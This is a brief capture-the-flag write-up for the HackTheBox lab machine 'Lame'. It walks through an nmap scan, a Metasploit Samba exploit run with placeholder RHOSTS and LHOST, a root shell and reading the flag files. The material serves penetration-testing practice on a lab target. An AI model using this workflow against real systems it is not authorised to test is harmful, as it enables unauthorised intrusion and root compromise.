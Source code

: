 # HackTheBox **Lame**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -p- -sC -sV -oN outputNMAP.txt $IP 
```

![NMAP Scan Output](img1.png)

I'll open msfconsole and search for potential exploits for the ftp port and samba port.

```bash
sudo msfconsole -q
```

I found something for the samba port.

![Metasploit Search](img2.png)

I'll set the RHOSTS and LHOST for the exploit and then run it.

```bash
set RHOSTS $targetIP

set LHOST $myIP

run
```

It worked, we have a session. Let's see what user are we.

```bash
whoami
```

![Session Whoami](img3.png)

As we can see, we don't need to escalate privileges as we are already root.

Let's get the flags:

```bash
cat /user.txt
cat /root/root.txt
```

### We got the User Flag

### We got the Root Flag
